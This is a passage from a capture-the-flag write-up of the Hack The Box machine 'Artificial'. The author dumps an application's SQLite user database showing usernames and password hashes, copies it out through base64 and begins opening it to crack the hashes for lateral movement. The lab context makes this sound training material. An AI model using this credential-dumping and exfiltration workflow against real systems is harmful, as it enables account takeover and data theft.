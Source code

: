 ## Lateral Movement (part 1: user)
### Pillaging
- After looking in the `/home/` directory, I can see that the user I need to escalate to is `gael`. After snooping around for a bit, I find an interesting file:
```a
app@artificial:~/app/instance$ ls  
ls  
users.db  
app@artificial:~/app/instance$ cat users.db  
cat users.db  
���E�itablemodelmodelCREATE TABLE model (  
       id VARCHAR(36) NOT NULL,    
       filename VARCHAR(120) NOT NULL,    
       user_id INTEGER NOT NULL,    
       PRIMARY KEY (id),    
       FOREIGN KEY(user_id) REFERENCES user (id)  
))=indexsqlite_autoindex_model_1model�]�tableuseruserCREATE TABLE user (  
       id INTEGER NOT NULL,    
       username VARCHAR(100) NOT NULL,    
       email VARCHAR(120) NOT NULL,    
       password VARCHAR(200) NOT NULL,    
       PRIMARY KEY (id),    
       UNIQUE (username),    
       UNIQUE (email)  
O��B��O;tmpusertmpuser@tmp.com32ecc7b16bde356f5d47cacc011184586'Mfartfart@fart.com3f2f4295a5eb6ad967b832d35e048852<3Mmarymary@artificial.htbbf041041e57f1aff3be7ea1abd6129d0>5Mroyerroyer@artif  
icial.htbbc25b1f80f544c0ab451c02a3dca9fc6@7Mrobertrobert@artificial.htbb606c5f5136170f15444251665638b36<3Mmarkmark@artificial.htb0f3d8c76530022670f1c6029eed09ccb<3Mgaelgael@artificial.htbc991  
75974b6e192936d97224638a34f8  
��������  
       mpusefarmary    royer  
robermark       gael  
\�\PU[383f339d-2991-4be8-8656-2972536d38bf383f339d-2991-4be8-8656-2972536d38bf.h5PU[42e2b63c-3c84-4f29-afd8-6f965518965d42e2b63c-3c84-4f29-afd8-6f965518965d.h5  
���(U383f339d-2991-4be8-8656-2972536d38bf'U     42e2b63c-3c84-4f29-afd8-6f965518965d
```
- Very nice! We have a SQLite database of usernames and passwords! Notice that we can see the username `gael`. Let's exfiltrate the file and hope that he reuses his password.
```a
app@artificial:~/app/instance$ base64 users.db  
base64 users.db  
[DATA]
app@artificial:~/app/instance$ exit  
exit  
exit  
[lkotlus@work] [~/Nerd/htb/artificial]    
(bash)>
```
- Now I can recover the file by pasting the base64 into a text file and then running:
```a
[lkotlus@work] [~/Nerd/htb/artificial]    
(bash)> cat base64.txt | base64 -d > users.db
```
### Cracking
- Cool. So now I just need to actually open the database and read the data:
```a
[lkotlus@work] [~/Nerd/htb/artificial]    
(bash)> sqlite3 users.db    
SQLite version 3.50.3 2025-07-17 13:25:10  
Enter ".help" for usage hints.  
sqlite> .tables  
model  user    
```